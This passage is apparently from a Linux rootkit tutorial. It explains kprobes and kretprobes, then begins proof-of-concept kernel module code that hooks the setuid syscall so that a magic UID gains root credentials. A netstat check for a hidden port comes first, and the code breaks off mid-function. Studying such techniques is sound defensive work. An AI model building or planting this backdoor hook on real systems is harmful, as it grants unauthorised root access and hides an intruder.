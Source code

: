 ```
dumbledore@infect:~$ netstat -tunlpd |grep 8081
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
dumbledore@infect:~$
```


## 2.2 Kprobe

Kprobes and Kretprobes allow you to insert 'probes' into kernel functions at runtime without requiring any modifications to the source code. These probes can trigger the execution of defined callback functions at specific points during the execution of a monitored function. This is particularly useful for debugging, performance monitoring, and even for security purposes like detecting malicious activity.

A kprobe is a kernel mechanism used to break into any kernel routine and collect debugging and performance information. A probe is inserted at a specific location in a function to perform actions like logging, modifying parameters, or even changing the control flow of the target function. Kprobes are generally used for monitoring function execution and tracing the flow of kernel code.

types of kprobe handlers:
pre_handler - called before the probed function executes
post_handler - called after the probed function executes but before the function returns to the caller

A kretprobe is similar to kprobes but is specifically designed for functions that return a value. It is used for tracing the return of functions, which is particularly useful when you want to inspect or modify the return value of a function. Kretprobes are inserted at the point where the function returns, allowing you to monitor or alter the return value before it is passed back to the caller.

types of kretprobe handlers:
entry_handler - called before the probed function starts executing (similar to pre_handler in kprobes)
handler - called after the probed function has executed and returned its value

Although kprobes and kretprobes are very useful for monitoring and debugging, attackers are able to abuse them to hook into functions in the kernel and manipulate them to behave maliciously at some point during their execution.

Below I will demonstrate how this can be done: ```[guest@archlinux rk]$ cat kp_hook.c```

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/init.h>
#include <linux/atomic.h>
#include <linux/kprobes.h>
#include <linux/sched.h>
#include <linux/capability.h>

MODULE_AUTHOR("humzak711");
MODULE_DESCRIPTION("POC kprobe hook");
MODULE_LICENSE("GPL");

atomic_t hooked = ATOMIC_INIT(0);

#define MAGIC_UID 50

#define _GLOBAL_ROOT_UID 0
#define _GLOBAL_ROOT_GID 0

void __x64_sys_setuid_post_handler(struct kprobe *kp, struct pt_regs *regs, unsigned long flags)
{
    printk(KERN_INFO "setuid hook called, elevating privs...");

    struct cred *new_creds = prepare_creds();

```